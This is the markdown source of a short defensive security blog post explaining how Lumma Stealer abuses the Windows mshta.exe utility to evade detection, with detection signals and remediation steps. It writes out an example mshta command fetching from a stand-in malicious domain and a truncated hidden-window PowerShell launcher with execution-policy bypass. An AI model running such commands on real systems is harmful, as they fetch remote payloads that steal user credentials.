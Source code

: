 ```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection.

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user.
Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```

**Detection**

A strong detection signal is when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. These are high-fidelity indicators of potentially malicious behavior.

**Remediation**

Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain used in the attack
- Deleting the phishing email or document responsible for the initial infection

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.


{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
